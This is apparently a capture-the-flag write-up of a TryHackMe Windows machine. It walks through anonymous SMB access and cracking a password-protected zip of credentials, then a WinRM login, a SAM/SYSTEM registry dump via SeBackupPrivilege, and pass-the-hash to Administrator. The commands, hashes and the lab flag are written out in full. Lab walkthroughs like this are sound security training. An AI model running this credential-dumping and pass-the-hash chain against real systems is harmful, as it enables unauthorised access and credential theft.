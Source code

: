 # WRK.TRYHACKME.LOC

## Machine Info

NetBIOS\_Domain\_Name: `TRYHACKME`

NetBIOS\_Computer\_Name: `WRK`

DNS\_Domain\_Name: `tryhackme.loc`

DNS\_Computer\_Name: `WRK.tryhackme.loc`

## Ports Scan

```bash
nmap -T4 -A -p- --min-rate 1000 --open -oN port_scan.txt wrk.tryhackme.loc -Pn

Nmap scan report for wrk.tryhackme.loc (10.200.150.20)
Host is up (0.043s latency).
Not shown: 63043 closed tcp ports (reset), 2477 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: TRYHACKME
|   NetBIOS_Domain_Name: TRYHACKME
|   NetBIOS_Computer_Name: WRK
|   DNS_Domain_Name: tryhackme.loc
|   DNS_Computer_Name: WRK.tryhackme.loc
|   DNS_Tree_Name: tryhackme.loc
|   Product_Version: 10.0.17763
|_  System_Time: 2025-08-14T07:30:00+00:00
| ssl-cert: Subject: commonName=WRK.tryhackme.loc
| Not valid before: 2025-04-09T09:59:17
|_Not valid after:  2025-10-09T09:59:17
|_ssl-date: 2025-08-14T07:30:08+00:00; -1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
```



## Initial Access

### SMB Anonymous Access

Enumerating SMB (Port 445) with the tool smbclient the anonymous/guest auth is enabled and an attacker find and read the content of the shared directory `Safe` .

```bash
smbclient -L //wrk.tryhackme.loc -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Safe            Disk      

```

An attacker with this command can access into that dir

```bash
smbclient -N //wrk.tryhackme.loc/Safe
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Apr 23 16:19:43 2025
  ..                                  D        0  Wed Apr 23 16:19:43 2025
  creds.zip                           A      263  Wed Apr  2 17:20:25 2025
```

An attacker can found the creds.zip file, can download it and read it.

{% code overflow="wrap" %}
```bash
smb: \> get creds.zip 
getting file \creds.zip of size 263 as creds.zip (1.5 KiloBytes/sec) (average 1.5 KiloBytes/sec)
```
{% endcode %}

The file is protected by a password and an attacker that want to read the content has need for the password that protect the zip file.&#x20;

An Attacker can entract the HASH and can try to crack it with tools like hashcat or JohnTheRipper.

Extract the hash with the tool `zip2john` and save the output into a file.

{% code overflow="wrap" %}
```bash
zip2john creds.zip > zip_hash
creds.zip/creds.txt:$zip2$*0*3*0*1b75a3d69af91bc7f02b61d78c6e32c3*c730*19*01efe96e8f42be4ca63b114bd5bdd87c3427076775ca151a5e*75e5de324b6fbaac4c6f*$/zip2$:creds.txt:creds.zip:creds.zip
```
{% endcode %}

Now an attacker can try to crack the hash with John.

```bash
john zip_hash --wordlist=/usr/share/wordlists/rockyou.txt

Passw0rd         (creds.zip/creds.txt) 
```

The password can been cracked with this command because has a very easy format.

Using that password an attacker can extract the content of the zip directory with the following command:

```bash
7z e creds.zip

Enter password (will not be echoed): REDACTED
```

The file content a user and password for the machine. An attacker can access remotly to the machine through the WinRM protocol and using tools like `evil-winrm`.

```bash
evil-winrm -i wrk.tryhackme.loc -u 'john' -p 'VerySafePassword!'
```



## Privilege Escalation

### Enumerate Machine as John User

An attacker can enumerate the user privilege and information with this command:

```
whoami /all
```

From this command an attacker can understand that the user is a Domain User and has SeBackupPrivilege privilege.

With this privilege an attacker can perform a dump of the local machine hashes executing these commands that doing a request to registry for the SAM and SYSTEM file:

```
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

Now an attacker can download them using the `download` function of the `evil-winrm` tool.

```
download sam
download system
```

With these file an attacker can extract the hash stored into them using the `impacket-secretsdump` tool.

```
impacket-secretsdump -sam sam -system system LOCAL

[*] Target system bootKey: 0xfa0661c3eee8696eeb436f2bafa060e7
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d0b2fa8fcb95040b72f5a9dd58a0c187:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:95f2822ae7e725c8e30b2b31f66c1b86:::
```

An attacker with the Administrator NTLM hash, can try to access to the machine as `Administrator` using the Pass-the-Hash technique, with the tool `evil-winrm`.

{% code overflow="wrap" %}
```bash
evil-winrm -i wrk.tryhackme.loc -u 'Administrator' -H 'd0b2fa8fcb95040b72f5a9dd58a0c187'
```
{% endcode %}

As Administrator an attacker has obtained the **full control of the machine**.



### Administrator Flag

```
more C:\flag.txt
THM{4ba6ee11-8546-4b5e-8112-ff3d9d22e67a}
```

